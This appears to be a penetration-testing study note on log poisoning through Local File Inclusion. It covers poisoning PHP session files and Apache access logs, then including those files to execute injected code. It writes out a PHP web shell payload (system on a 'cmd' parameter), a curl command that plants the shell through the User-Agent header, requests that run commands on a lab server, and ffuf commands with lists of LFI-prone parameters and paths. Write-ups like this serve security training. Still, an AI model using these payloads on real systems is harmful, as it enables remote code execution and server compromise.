

# Log poisoning attack - File inclusion


This attack relies on:

- Writing PHP code in a field we control that gets logged into a log file (i.e. `poison`/`contaminate` the log file)
- Reading via Local File Inclusion that log file to execute the PHP code.

If any of the following functions has `Execute` privileges, then the app is vulnerable to this attack:

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |        ✅         |      ✅      |       ✅        |
| `require()`/`require_once()` |        ✅         |      ✅      |       ❌        |
| **NodeJS**                   |                  |             |                |
| `res.render()`               |        ✅         |      ✅      |       ❌        |
| **Java**                     |                  |             |                |
| `import`                     |        ✅         |      ✅      |       ✅        |
| **.NET**                     |                  |             |                |
| `include`                    |        ✅         |      ✅      |       ✅        |

##  Session poisoning

**1.** Reading the log. I we have the following PHPSession cookie:

```
Cookie: PHPSession=nhhv8i0o6ua4g88bkdl9u1fdsd
```

Then, its location on disk would be:

```
# Linux
/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3

# Windows
C:\Windows\Temp\sessions\sess_el4ukv0kqbvoirg7nkp4dncpk3
C:\Windows\Temp\sess_el4ukv0kqbvoirg7nkp4dncpk3
```

Now, from the endpoint vulnerable to LFI, we can read the log for our session:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

# My example:
http://94.237.54.42:37338/index.php?language=/var/lib/php/sessions/sess_giiat46h4vo3robfrnoet7neqf
```

Screenshot:


We can write the logs with the language parameter. 

**2.** Write the logs with the following malicious payload:

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

whereas the payload is url encoded:

```
<?phpsystem($_GET["cmd"]);?>
```

**3.** Execute the shell:

```
http://94.237.54.42:37338/index.php?language=/var/lib/php/sessions/sess_giiat46h4vo3robfrnoet7neqf&cmd=ls
```



Executing the shell requires writing the shell into the log every time (step 2).

## Server Log Poisoning

Apache maintains various logs files under `var/log/apache2/` on Linux and `C:\xampp\apache\logs\` on Windows:

- `access.log`
- `error.log`

Nginx logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows.

**The attack:**

**1.** As we have located a LFI vulnerability, we can read the `access.log` file:

```
http://94.237.54.42:37338/index.php?language=/var/log/apache2/access.log
```

The log contains the remote IP address, request page, response code, and the User-Agent header.


**2.** The User-Agent header is controlled by us through the HTTP request headers, so we should be able to poison this value. We can do it with Burpsuite or via curl:

```shell-session
curl -s "http://94.237.54.42:37338/index.php" -A "<?php system($_GET['cmd']); ?>"
```

**3**. Executing the payload:

```
GET /index.php?language=/var/log/apache2/access.log&cmd=ls+/ HTTP/1.1
Host: 94.237.54.42:37338
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: uid=96; PHPSESSID=giiat46h4vo3robfrnoet7neqf
Upgrade-Insecure-Requests: 1

```


## Interesting files, parameters and servers

### Files

!!! quotes "Enumerating interesting files"
	- [Interesting Windows files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/windows/interesting-files.md)
	- [Interesting Linux files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/Linux/interesting-files.md)
	- [Complete dictionary with both Linux and Windows files: https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)


### Parameters

There are specific lists for parameters, as sometimes there might exists a parameter not visible in the application:

```shell-session
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2309
```


This is a list of some typical parameters vulnerable to LFI:

```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

Using ffuf to test vulnerable parameters:

```shell-session
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287


ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.54.231:47114/index.php?language=FUZZ' -fs 2287
```


### Server webroot path, server configurations file, and server logs


- /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt

```
var/www/html/
var/www/
var/www/sites/
var/www/public/
var/www/public_html/
var/www/html/default/
srv/www/
srv/www/html/
srv/www/sites/
home/www/
home/httpd/
home/$USER/public_html/
home/$USER/www/
```

- /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-windows.txt

```
c:\inetpub\wwwroot\
c:\xampp\htdocs\
c:\wamp\www
```


Using ffuf to locate the root server:

```shell-session
ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```


